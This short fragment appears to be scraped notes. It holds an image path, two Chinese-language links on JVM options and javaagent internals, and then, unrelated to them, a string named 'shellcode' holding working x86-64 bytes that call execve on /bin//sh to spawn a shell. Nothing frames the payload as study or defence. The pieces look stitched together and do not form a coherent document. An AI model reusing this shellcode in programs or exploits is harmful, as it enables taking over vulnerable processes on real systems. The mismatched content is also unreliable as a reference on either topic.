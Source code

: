 Java 6 JVM参数选项大全（中文版） http://www.blogjava.net/bitbit/archive/2009/11/30/304247.html
JVM源码分析之javaagent原理完全解读  http://www.infoq.com/cn/articles/javaagent-illustrated
  
  
shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
